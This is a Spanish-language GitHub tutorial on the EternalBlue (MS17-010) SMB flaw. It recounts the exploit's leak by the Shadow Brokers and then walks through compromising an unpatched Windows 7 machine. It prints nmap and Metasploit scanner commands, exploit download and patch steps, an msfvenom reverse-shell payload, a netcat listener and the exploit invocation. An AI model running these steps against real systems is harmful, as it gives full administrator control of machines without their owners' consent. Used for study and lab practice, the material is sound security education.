 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&size=19&pause=1000&color=D1F700&width=489&lines=Explotar+Windows+7+con+exploit+EternalBlue"></a>
</p>

<h1 align="center"></h1>

<h3 align="center"><ins>VULNERABILIDAD y ORIGEN de ETERNALBLUE</ins></h3>

EternalBlue es un exploit desarrollado por la NSA (Agencia de Seguridad Nacional de los EE.UU) y filtrado por el grupo de hackers Shadow Brokers el 14 de abril de 2017, el grupo se filtro en la base de datos de la agencia y desde allí accedieron a todo tipo de herramientas y exploits que luego publicaron en venta. Luego de que el exploit fuera liberado, los ciberdelincuentes no tardaron en aprovecharse para atacar hospitales, empresas y gobiernos con dicha vulnerabilidad; fue utilizado en el ataque mundial de ransomware con <a href="https://es.wikipedia.org/wiki/WannaCry">WannaCry</a>. Los ataques aumentaron desconsideradamente y para la NSA no le quedo otra opción que reportar la vulnerabilidad a Microsoft y que esté lance un parche para corregirla.

EternalBlue se aprovecha de una vulnerabilidad en el protocolo Server Message Block (SMB) de Microsoft, cuyo protocolo permite compartir archivos e impresoras conectadas a la red. Estaba presente en todos los sistemas operativos Windows: Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and Windows 10 Gold. Aunque Microsoft libero una actualización de seguridad  el 14 de marzo de 2017 que resolvió el problema a través del parche <a href="https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010">MS17-010</a>, seguidamente se extendió a versiones antiguas de Windows (Windows XP, Windows 8 y Windows Server 2003).

La vulnerabilidad es capaz de otorgar el control completo sobre una máquina por medio de ejecucción de código arbitrario a nivel administrador sin requerir la interacción del usuario. Si bien es cierto que a día de hoy esta vulnerabilidad ha sido parchada, pero no significa que no debamos estar alerta ya que en la actualidad hay empresas que siguen utilizando versiones antiguas de Windows que no tienen soporte (Ej. Windows 7), así como también para uso doméstico en computadoras antiguas.

</br>

<h4 align="center">Grupo The Shadow Brokers</h4>

El grupo de Shadow Brokers apareció por primera vez en el verano del 2016. Fue reconocido por sus publicaciones en donde filtraban herramientas de hacking, exploits y vulnerabilidades zero-day del "Equation Group", una rama de la NSA clasificada como una amenaza persistente avanzada. Los exploits estaban dirigidos a firewalls empresariales, software, productos de Windows, smart TVs, smartphones y otros dispositivos para recopilar información. Las publicaciones de Shadow Brokers indicaban que tenían programas de espionaje dirigidos a productos de Juniper, Fortigate, Cisco y Topsec, así como también el código del gusano informático Stuxnet (utilizado para atacar las instalaciones de uranio de Irán).

El grupo de hackers tenía una web bajo ZeroNet donde subastaban los exploits directamente y de uno en uno, los precios iban desde 1 y 100 bitcoins pero la sala de subasta no tenia suficiente actividad, por lo que nadie quería comprarlos en su momento. Los intentos de venta han sido por medio de comunicados en inglés, y que según estos, tienen faltas de ortografía, lo que deduce que no son estadounidenses y que trabajan para un gobierno en específico. Hasta la fecha su cuenta de <a href="https://twitter.com/shadowbrokerss/status/879955121878204416">Twitter</a> sigue existiendo desde agosto de 2016 pero sin señales de actividad desde su última publicación en donde ofrecen servicios individuales VIPs para hackear una organización, obtener información confidencial o comprar herramientas via email.

<p align="center">
  <img src="https://www.muyseguridad.net/wp-content/uploads/2017/04/Shadow-Brokers.jpg">
</p>

##### WEBGRAFÍA:

- https://es.wikipedia.org/wiki/EternalBlue

- https://en.wikipedia.org/wiki/The_Shadow_Brokers

<h1 align="center"></h1>

### EXPLOTAR ETERNALBLUE | Manual

Con el script (*smb-vuln-ms17-010*) de Nmap comprobamos si el sistema es o no vulnerable a EternalBlue:
```
sudo nmap --script smb-vuln-ms17-010 <TARGET>
```
![1](https://user-images.githubusercontent.com/75953873/187816900-9f93b05a-4a26-4c31-8688-8c01d989c8aa.png)

Efectivamente, el sistema es vulnerable a EternalBlue. Ahora faltaría bajar localizar el exploit y descargarlo con Searchsploit:
```
searchsploit eternalblue
```
![2](https://user-images.githubusercontent.com/75953873/187817250-1095f790-fbd9-4e0f-8a20-d4d2e71a5f87.png)

Exploit: Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 = **42315**
```
searchsploit -m 42315
```
El exploit esta programado con Python3 y es necesario el módulo mysmb para hecharlo andar, así que ejecutamos el siguiente comando para descargarlo:
```
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```
Si ejecutamos el código podemos observar que no presenta errores de módulos:

![3](https://user-images.githubusercontent.com/75953873/187817618-3481722e-5597-494b-bbc6-1921667df305.png)

Las tuberías con nombre (named pipes) son una forma de que los procesos en ejecucción se comuniquen entre sí con muy poca sobrecarga, generalmente aparecen como nombre de archivos para que otros procesos se adjunten. Metasploit tiene un escáner que encontrará cualquier tubería con nombre de un host, pero yo prefiero utilizar un script de forma manual: https://github.com/zzwlpx/ms17010-nsa-EternalBlue/blob/master/checker.py

Después de descargar y ejecutar el código, lo más normal es que le salte el siguiente error:

![5](https://user-images.githubusercontent.com/75953873/188349074-f68ddd3e-7bfa-4148-885e-9dce04ca2ea3.png)

Esto ocurre porque la función `str` se utiliza para devolver una cadena, no para imprimir una. Para solucionarlo debemos editar el código `mysmb.py`, hay que sustituir las líneas 229 y 230 por:
```python
req = pkt.getData()
return b'\x00'*2 + pack('>H', len(req)) + req
```
![6](https://user-images.githubusercontent.com/75953873/188349925-e476d8c8-7cef-4932-b599-1a33e810e63e.png)

Si ejecutamos el checker ya funciona correctamente:

![4](https://user-images.githubusercontent.com/75953873/188350245-47a40103-1139-4f99-876a-8abbde4c9e0a.png)

Named pipes aceptados: browser, netlogon, lsarpc, samr.

Posiblemente les lance el siguiente error de autenticación de usuario:

![7](https://user-images.githubusercontent.com/75953873/189492357-69c6b1dd-33fa-4555-930c-5ad4b2ae8109.png)

Así que probemos con otro exploit más actualizado: https://github.com/3ndG4me/AutoBlue-MS17-010

![8](https://user-images.githubusercontent.com/75953873/189492436-04e8382c-bcbb-46ad-b73f-f55629b52f5e.png)

Hay varias versiones del exploit, el que nos interesa es `eternalblue_exploit7.py`. Seguidamente, generamos una shellcode con msfvenom para escuchar las conexiones de la máquina:
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP-LOCAL> LPORT=<PUERTO> -f exe -o <DIRECTORIO/NOMBRE>
```
![9](https://user-images.githubusercontent.com/75953873/189492832-47a6b221-db9c-4ee3-995f-3b14251ee22e.png)

Después ejecutamos Netcat y ponemos a escucha el puerto del shellcode:
```
nc -lvnp
```

Finalmente ejecutamos el exploit 7 con la ruta del shellcode generado:
```
python3 eternalblue_exploit7.py <IP> <SHELLCODE>
```
![10](https://user-images.githubusercontent.com/75953873/189492954-a904b963-6491-407c-99cd-7416ad9214f1.png)

En la terminal de Netcat se abrirá una shell remota en donde podemos interactuar con la máquina víctima:

![11](https://user-images.githubusercontent.com/75953873/189493003-dd72ab81-16e2-431b-9178-c7127a5ffec8.png)

Es **IMPORTANTE** aclarar que eternalblue no siempre funciona a la primera, es por eso que hay que reintentar nuevamente hasta que la conexión se establezca.

<h1 align="center"></h1>

### EXPLOTAR ETERNALBLUE | Automatizado con Metasploit

Si bien es cierto que hacerlo manual lleva más tiempo, es aquí donde entra Metasploit para facilítarnos la vida. Personalmente prefiero llevar el ataque de forma manual, pero tampoco quiero olvidarme de los fans de Metasploit; que en sí no es malo utilizarlo, sino hacerlo sin tener idea de que ocurre por detrás del proceso. Para comenzar con el procedimiento, podemos verificar si la máquina es vulnerable a eternalblue con el scanner ya incorporado del framework:
```
msfconsole
search eternalblue scanner
use auxiliary/scanner/smb/smb_ms17_010  |  use 0
set RHOSTS <IP>
```
![12](https://user-images.githubusercontent.com/75953873/189494844-dfe29158-4686-471f-b2b4-684974ef84d9.png)

El host es vulnerable:

![13](https://user-images.githubusercontent.com/75953873/189494874-d7e1d03c-aaeb-41de-93ee-ea52e7c0fbf8.png)

Por último, seleccionamos el exploit `ms17_010_eternalblue` y configuramos el RHOSTS nuevamente:
```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <IP>
```
![14](https://user-images.githubusercontent.com/75953873/189494935-f8034937-e535-4bd7-bf98-e62d28c85075.png)

Metasploit se encargará de ejecutar el exploit las veces que sea necesario para obtener una shell remota, comoo mencione más arriba, eternalblue no siempre funciona a la primera.

![15](https://user-images.githubusercontent.com/75953873/189495269-8279bc78-7a70-446f-ba9e-b8ed896a5411.png)
